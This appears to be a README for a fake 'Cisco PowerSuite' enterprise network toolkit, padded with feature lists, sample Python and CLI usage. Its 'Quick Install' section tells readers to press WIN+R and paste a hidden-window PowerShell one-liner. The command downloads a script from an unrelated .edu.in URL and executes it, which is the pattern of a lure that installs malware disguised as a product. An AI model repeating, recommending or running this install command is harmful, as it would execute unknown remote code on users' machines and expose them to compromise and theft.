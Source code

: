 # 🚀 Cisco PowerSuite - Enterprise Network Toolkit
*Unified management suite for Cisco VPN, Security and Network Simulation*

---

## 🔐 VPN & Remote Access
### **AnyConnect Enterprise Manager**
✅ **Multi-Platform Client Configurator**  
- Unified profile generator (Windows/macOS/Linux/iOS/Android)  
- Automated certificate deployment  
- Bandwidth-optimized tunneling  

✅ **AnyConnect Server Monitor**  
- Real-time session analytics  
- Geo-blocking policy enforcer  
- Suspicious activity detector  

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

```python
# Sample AnyConnect profile generator
from cisco_vpn_toolkit import ProfileBuilder

profile = ProfileBuilder(
    server="vpn.example.com",
    split_tunnel=True,
    dtls=True
).add_domain("corp.example.com")
profile.deploy_to_git()
```
### 🔧 Usage Examples
```
# Generate VPN config
cisco-suite vpn-profile --os=macos --output=profile.xml

# Analyze ASA ruleset
cisco-suite asa-optimize --input=running.cfg

# Build PT lab from CSV
cisco-suite pt-builder --topo=office.csv
```

### 🛡️ Security Orchestration
#### ASA/NSO PowerTools
##### 🔥 Firewall Rule Optimizer

- ACL redundancy checker

- Object-group auto-suggest

- Shadow rule detection

##### 🌐 NSO Service Designer

- YANG model validator

- Network slice composer

- CI/CD pipeline integration

### Sample ASA Command:
```
! Automated NAT cleanup tool
asa-tool nat-analysis | include redundant
```
